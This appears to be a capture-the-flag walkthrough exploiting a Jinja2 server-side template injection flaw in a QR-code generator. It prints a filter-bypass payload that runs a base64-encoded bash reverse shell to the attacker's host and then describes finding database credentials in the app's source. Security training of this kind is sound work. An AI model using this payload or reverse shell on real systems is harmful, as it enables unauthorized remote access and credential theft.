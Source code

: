 Then we test the `qr_link` parameter for SSTI.

![ssti-test](/images/iclean-qr-generator-ssti-confirm.webp)

And with a simple payload of `{{7*7}}`, we can see that the page is vulnerable because ti read it, and executed it for us. From reviewing HackTricks, it looks like it's using `Jinja` as the templating engine.

More evidence of the vulnerability

![ssti2](/images/iclean-qr-generator-ssit-confirm2.webp)

Now that we know the web app is vulnerable to SSTI, we can create our reverse shell payload.

Using a modified payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) under **Server Side Template Injection > Jinja2 - Filter Bypass**, the very last one listed under this heading is a bypass for all the most common filters ('.','\_','|join','[',']','mro' and 'base').

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

The [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) entry from the creator of this bypass also does a good job explaining.

We modify this to:

```python title="Full Payload"
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5f
getitem\x5f\x5f')
('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')
('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')("echo+-
n+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMjQvMTMzNyAwPiYx%3d%3d+|+base64+
-d+|+bash")|attr('read')()}}
```

![ssti-payload](/images/iclean-ssti-exploit.webp)

_I did attempt to run SSTImap which I found on HackTricks, but I didn't go too deep into it since the first attempt failed. I'll give this another shot in a future machine._

After the `echo`, it's a base64 encoded string of a simple bash reverse shell (obtained from [revshells](https://revshells.com). In the above screenshot, you can see it executes successfully, and we get foothold.

## Foothold

We see that we're the `www-data` user, which generally has very few privileges. But in our home directory, we see an `app.py`. If we just `cat` it out, we find some database credentials. This should let us connect to the database as `www-data` in our reverse shell and dump the tables.

![database-creds](/images/iclean-db-config.webp)
